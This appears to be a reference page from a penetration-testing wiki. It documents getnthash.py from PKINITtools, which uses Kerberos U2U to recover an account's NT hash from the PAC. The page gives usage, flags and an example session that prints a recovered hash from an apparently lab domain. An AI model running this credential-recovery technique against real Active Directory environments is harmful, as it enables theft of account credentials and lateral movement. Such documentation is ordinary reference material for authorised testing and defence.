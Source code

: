 ```yaml
---
title : "getnthash.py"
# pre : ' '
description : "Use Kerberos U2U to submit a TGS request for yourself."
date : 2023-12-03T06:11:46+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## getnthash.py - Use Kerberos U2U to submit a TGS request for yourself

Use Kerberos U2U to submit a TGS request for yourself. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that was used for your specific TGT. It's magic really. This tool requires a TGT resulting from PKINIT to be in your `KRB5CCNAME` env variable.

## Installation

Install [PKINITtools]({{< ref "pkinittools" %}}).

## Usage

```plain
getnthash.py [-h] -key KEY [-dc-ip ip address] [-debug] identity
```

## Flags

```plain
positional arguments:
  identity           domain/username

options:
  -h, --help         show this help message and exit
  -key KEY           AS REP key from gettgtpkinit.py
  -dc-ip ip address  IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -debug             Turn DEBUG output ON
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ export KRB5CCNAME=s2019dc.ccache
(PKINITtools) user@localhost:~/PKINITtools$ python getnthash.py testsegment.local/s2019dc\$ -key 5769dff44ebeaa5a37b4e9f7005f63063ffd7c198b747ae72021901e8063b0e3
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
fa6b130d73311d1be5495f589f9f4571
```
